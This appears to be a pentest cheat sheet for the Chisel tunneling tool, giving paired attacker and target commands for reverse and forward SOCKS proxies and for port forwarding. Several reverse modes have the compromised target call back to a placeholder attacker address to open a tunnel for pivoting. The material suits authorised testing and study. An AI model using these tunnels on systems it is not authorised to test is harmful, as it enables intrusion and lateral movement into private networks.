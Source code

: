### Chisel client/server --help

### Author: https://github.com/jpillora/chisel/releases

### Reverse SOCKS proxy

#### Attacker: ./chisel server -p LISTENING_PORT --reverse &

#### Target: ./chisel client ATTACK_IP:LISTEN_PORT R:SOCKS &

### Forward SOCKS proxy

#### Target: ./chisel server -p LISTEN_PORT --socks5

#### Attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

## TIP:

#### Set the port in the proxychains file. (SOCKS5)

#### If you use forward proxy, set the port to whichever one you opened.

### Local Port Forward

#### Target: ./chisel server -p LISTEN_PORT

#### Attacker: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### Remote Port Forward

#### Atttacker: ./chisel server -p LISTEN_PORT --reverse &

#### Target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

## TIP:

#### Also use jobs then kill %num for chisel background processes too.

#### And use proxychains on your attacking machine
